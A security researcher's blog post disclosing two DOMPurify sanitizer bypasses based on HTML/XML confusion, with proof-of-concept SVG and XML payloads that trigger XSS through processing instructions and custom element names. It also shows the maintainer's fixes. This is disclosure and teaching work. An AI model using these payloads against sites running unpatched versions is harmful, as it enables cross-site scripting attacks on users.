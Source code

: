 +++
title = 'DOM Purify - untrusted Node bypass'
date = 2023-04-19T00:00:00+03:00
draft = false
+++

# Introduction

In this article, I aim to elucidate a deficiency in the implementation of DOMPurify that I recently uncovered. While it may not pertain to the most common use cases of this library, I found it to be a compelling discovery worthy of exploration.

# Purify ~~strings~~ nodes
In most scenarios, when utilizing the library, a string is passed to the sanitize function:
```javascript
DOMPurify.sanitize("<a href='https://x.com/slonser_'>slonser</a>")
// output: <a href="https://x.com/slonser_">slonser</a>
```
However, there exists a less common yet notable capability - passing an HTML Node as an argument to the function:
```javascript
let a_element = document.createElement("a")
a_element.href="https://x.com/slonser_"
DOMPurify.sanitize(a_element)
// output: <a href="https://x.com/slonser_">slonser</a>
```
I recently encountered such usage of the library. Let's consider a simplified example:
```javascript
        function pastUserFrame(user_link){
            let frame = document.createElement('iframe');
            frame.sandbox='allow-same-origin'
            frame.id='frame'
            frame.src=user_link
            document.body.appendChild(frame);
        }

        function validateOnClick(){
            let box = document.createElement('div')
            box.class='user-input'
            let button = frame.contentDocument.documentElement;
            box.appendChild(button)
            user_container.innerHTML = DOMPurify.sanitize(box)
        }
```
On this website, we have the capability to upload files and access them via a link. Unfortunately, all these links are subjected to a Content Security Policy (CSP) that prevents XSS exploitation. However, we have the ability to embed a tag from this document onto a page with a weaker CSP.

# You can't get XSS...
The truth is, the parsing process itself doesn't differ. If we look at the [code](https://github.com/cure53/DOMPurify/blob/fcb9dbd9a935d91e1a087b5ee721da1c6b008790/src/purify.js#L1425C7-L1439C6), the only distinction is that we don't need to first convert the string into a Node, because it already is one. So, the process cannot be circumvented unless we find a way to bypass DOMPurify's filtering in general cases.
```javascript
else if (dirty instanceof Node) {
      /* If dirty is a DOM element, append to an empty document to avoid
         elements being stripped by the parser */
      body = _initDocument('<!---->');
      importedNode = body.ownerDocument.importNode(dirty, true);
      if (importedNode.nodeType === 1 && importedNode.nodeName === 'BODY') {
        /* Node is already a body, use as is */
        body = importedNode;
      } else if (importedNode.nodeName === 'HTML') {
        body = importedNode;
      } else {
        // eslint-disable-next-line unicorn/prefer-dom-node-append
        body.appendChild(importedNode);
      }
    }
```
# Confusion...
Therefore, I decided to think differently. If I don't want to bypass the parser, what unexpected behavior can I trigger?
After some thought, I realized that **confusion between HTML and XML** contexts could help achieve XSS.


If I were to elaborate on my thought, the issue lies in the fact that an XML Node can be a child element of HTML Node, and I immediately assumed that this could create problems.


I tested by uploading a simple SVG file to the server and inserting its link into the function call.
*svg.svg*
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slons" xmlns="http://www.w3.org/2000/svg"><circle></circle></svg>
```
After that, we can verify that the object was successfully transferred into the HTML tree.
![](./1.jpg)
# And what?
Yes, we can indeed insert an XML node into HTML, but that alone doesn't give us the opportunity to obtain XSS. What's next? We should look for differences between XML and HTML!

And at that moment, I remembered that in XML there exists a concept called **Processing Instructions**, whereas in HTML it is absent.

**Processing Instructions** in XML are special markup constructs used to convey instructions to applications that process XML documents. They are typically used to provide information about how the XML document should be processed or interpreted, rather than representing data or content within the document itself.

Processing Instructions are structured as follows:
```
<?target instructions?>
```
# Purify instructions?
I immediately decided to see how DOMPurify handles Processing Instructions.
```javascript
DOMPurify.sanitize("<?xml-stylesheet src='slonser' ?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
// output: <?xml-stylesheet src='slonser' ?>
```
So, Process Instructions are not removed, but why?
Let's check the source code:
```javascript
  const _createNodeIterator = function _createNodeIterator(root) {
    return createNodeIterator.call(root.ownerDocument || root, root,
    // eslint-disable-next-line no-bitwise
    NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT, null);
  };
```
`_createNodeIterator` is a function that traverses the DOM tree objects, used for sanitizing elements. As a matter of fact, the following filters are passed to it: `NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT`, but in order for the iterator to return Process instructions, the filter `NodeFilter.SHOW_PROCESSING_INSTRUCTION` must be enabled.

# Processing Instructions in HTML?
Let's pass the following file via link to the application we are examining:
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slons" xmlns="http://www.w3.org/2000/svg"><?slonser href="C4T BuT S4D"?> </svg>
```
![](./2.jpg)
We will see that our instruction has turned into a comment. So, have we lost? 


No. If you look closely, you will notice that in XML, the closing delimiter will be `?>`, whereas the HTML parser in the browser will search for `>` until the end of the comment.
Now let's upload the next file:
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slonser" xmlns="http://www.w3.org/2000/svg"><?xml-stylesheet > <img src=x onerror="alert('DOMPurify bypassed!!!')"> ?></svg>
```
And we will see a popup alert! while the structure of the DOM tree will look like this:
![](./3.jpg)

# First Fix
On the same day, I wrote to the project maintainer, and he almost instantly pushed the [fix](https://github.com/cure53/DOMPurify/commit/1b5963966c6a444f5ebc6f77e0c21a1d46a80164). (I think if there was a prize for the fastest fix, he would win it.):
``` javascript
-    NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT, null);
+    NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION, null);
```
As you can see now, NodeFilter also check Process Instructions, and now they are removed. But does this completely fix the problem at its core?
# Custom configuration
Yes, this does indeed solve the issue in the standard configuration, but what about when the user extends the standard configuration?
For example:
```javascript
DOMPurify.sanitize(box, {CUSTOM_ELEMENT_HANDLING: {
        tagNameCheck: /-foo-bar$/,
        allowCustomizedBuiltInElements: true,
    }
})
```
This configuration allows any custom tags ending with `-foo-bar`.


In such a configuration, the problem will still persist. But why?


The issue lies in the fact that XML and HTML have different requirements for tag names.
While the tag `<_slonser-foo-bar>` will be valid in XML, it won't be recognized as a tag in HTML.
So let's test this file with extended configuration:
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><_slonser-foo-bar data-slonser='&lt;iframe/src=javascript:alert()&gt;'></_slonser-foo-bar>
```
We will see the alert again, and the structure of the DOM tree will look like this:
![](./4.jpg)

# Second Fix
The next day, a fix was introduced for this issue. It involves checking the customElement name with a special regular expression:
```javascript
export const CUSTOM_ELEMENT = seal(/^[a-z][a-z\d]*(-[a-z\d]+)+$/i);
...
return tagName !== 'annotation-xml' && stringMatch(tagName, CUSTOM_ELEMENT);
```

# Conclusion
At the end of the article, I want to express gratitude to mario of [cure53](https://twitter.com/cure53berlin) for the quick resolution of the issue. I hope you enjoyed my article and learned a bit more about the differences between HTML and XML.
